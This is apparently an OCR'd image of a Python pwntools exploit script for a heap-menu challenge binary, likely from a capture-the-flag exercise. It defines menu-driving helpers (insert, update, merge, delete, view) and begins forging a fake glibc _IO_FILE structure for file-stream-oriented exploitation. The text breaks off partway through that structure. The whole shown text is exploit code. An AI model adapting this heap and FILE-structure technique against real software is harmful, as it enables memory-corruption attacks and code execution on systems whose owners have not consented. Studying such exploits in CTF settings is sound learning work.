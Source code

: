 ```
#print hex(membp.elf_base),hex(membp.libc_base)
elf=pdbg.elf
libc=pdbg.libc

def insert(size,data):
    p.recvuntil("choice: ")
    p.sendline("1")
    p.recvuntil("entry: ")
    p.sendline(str(size))
    p.recvuntil("data: ")
    p.send(data)

def update(idx,size,data):
    p.recvuntil("choice: ")
    p.sendline("2")
    p.recvuntil("ID: ")
    p.sendline(str(idx))
    p.recvuntil("entry: ")
    p.sendline(str(size))
    p.recvuntil("data: ")
    p.send(data)

def merge(from_idx,to_idx):
    p.recvuntil("choice: ")
    p.sendline("3")
    p.recvuntil("ID: ")
    p.sendline(str(from_idx))
    p.recvuntil("ID: ")
    p.sendline(str(to_idx))

def delete(idx):
    p.recvuntil("choice: ")
    p.sendline("4")
    p.recvuntil("ID: ")
    p.sendline(str(idx))
def view(idx,):
    p.recvuntil("choice: ")
    p.sendline("5")
    p.recvuntil("ID: ")
    p.sendline(str(idx))


def list():
    p.recvuntil("choice: ")
    p.sendline("6")

def build_fake_file(addr,vtable):

    flag=0xfbad2887
    #flag&amp;=~4
    #flag|=0x800
    fake_file=p64(flag)               #_flags
    fake_file+=p64(addr)             #_IO_read_ptr
    fake_file+=p64(addr)             #_IO_read_end
    fake_file+=p64(addr)             #_IO_read_base
    fake_file+=p64(addr)             #_IO_write_base
    fake_file+=p64(addr+1)             #_IO_write_ptr
    fake_file+=p64(addr)         #_IO_write_end
    fake_file+=p64(addr)                    #_IO_buf_base
    fake_file+=p64(0)                    #_IO_buf_end
    fake_file+=p64(0)                       #_IO_save_base
    fake_file+=p64(0)                       #_IO_backup_base
    fake_file+=p64(0)                       #_IO_save_end
```